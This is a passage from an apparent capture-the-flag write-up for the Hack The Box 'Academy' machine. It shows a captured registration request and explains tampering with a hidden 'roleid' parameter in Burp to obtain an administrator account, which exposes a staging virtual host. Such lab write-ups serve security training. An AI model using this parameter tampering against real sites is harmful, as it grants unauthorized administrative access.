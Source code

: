 ### admin.php

When taking a closer look at the registration request, we can see that there is
a post parameter `roleid` set to `0`.

    :::text
    POST /register.php HTTP/1.1
    Host: academy.htb
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 44
    Origin: http://academy.htb
    Connection: close
    Referer: http://academy.htb/register.php
    Cookie: PHPSESSID=pf1cigmrl6la8c0o7lte5jubum
    Upgrade-Insecure-Requests: 1

    uid=toto&password=toto&confirm=toto&roleid=0

Using Burp and the proxy module, we change the `roleid` parameter to `1`. Our
new account can now log into the admin part. Which is mostly a *todo* list,
disclosing the staging environment virtual host.
